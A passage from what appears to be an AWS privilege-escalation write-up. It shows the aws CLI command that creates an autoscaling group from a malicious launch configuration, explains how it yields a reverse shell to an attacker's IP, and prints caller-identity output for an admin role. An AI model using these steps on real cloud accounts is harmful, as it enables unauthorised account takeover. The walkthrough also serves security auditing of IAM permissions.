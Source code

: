 The attacker then creates the autoscaling group using the launch configuration "evilLC" to actually start EC2 instances:

```bash
aws autoscaling create-auto-scaling-group --auto-scaling-group-name demo2-ASG --launch-configuration-name demo2-LC --min-size 1 --max-size 1 --vpc-zone-identifier "subnet-aaaabbb"
```

The VPC subnets selected should at least allow the egress traffic from the EC2 to the attacker IP and port; normally egress security groups are pretty wide and the attacker is spoilt for choice.

Using the `ec2:DescribeSubnets` permissions defined in `AmazonElasticMapReduceFullAccess` the attacker can select the appropriate subnet ID.

Once the EC2 is started the attacker receive the reverse shell with access to all account:

```bash
aws sts get-caller-identity

{
  "Account": "111111111111",
  "UserId": "AROAWFKZ7XCLH3Y24XL2P:i-076ac821ccfb80c2e",
  "Arn": "arn:aws:sts::111111111111:assumed-role/EC2Admin/i-076ac821ccfb80c2e"
}
```
